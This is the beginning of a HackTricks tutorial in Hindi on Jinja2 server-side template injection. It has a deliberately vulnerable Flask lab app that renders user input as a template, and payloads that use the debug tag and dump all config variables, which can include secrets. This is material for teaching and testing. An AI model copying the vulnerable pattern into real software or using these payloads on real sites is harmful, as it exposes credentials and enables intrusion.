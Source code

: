 # Jinja2 SSTI

{% hint style="success" %}
सीखें और AWS हैकिंग का अभ्यास करें:<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
सीखें और GCP हैकिंग का अभ्यास करें: <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details><summary>HackTricks का समर्थन करें</summary></details>
{% endhint %}

## **लैब**
```python
from flask import Flask, request, render_template_string

app = Flask(__name__)

@app.route("/")
def home():
if request.args.get('c'):
return render_template_string(request.args.get('c'))
else:
return "Hello, send someting inside the param 'c'!"

if __name__ == "__main__":
app.run()
```
## **Misc**

### **Debug Statement**

यदि Debug Extension सक्षम है, तो एक `debug` टैग उपलब्ध होगा जो वर्तमान संदर्भ के साथ-साथ उपलब्ध फ़िल्टर और परीक्षणों को डंप करेगा। यह टेम्पलेट में उपयोग के लिए उपलब्ध चीज़ों को देखने के लिए उपयोगी है बिना डिबगर सेटअप किए।
```python
<pre>

{% raw %}
{% debug %}
{% endraw %}






</pre>
```
### **सभी कॉन्फ़िगरेशन वेरिएबल्स को डंप करें**
```python
{{ config }} #In these object you can find all the configured env variables


{% raw %}
{% for key, value in config.items() %}
<dt>{{ key|e }}</dt>
<dd>{{ value|e }}</dd>
{% endfor %}
{% endraw %}



```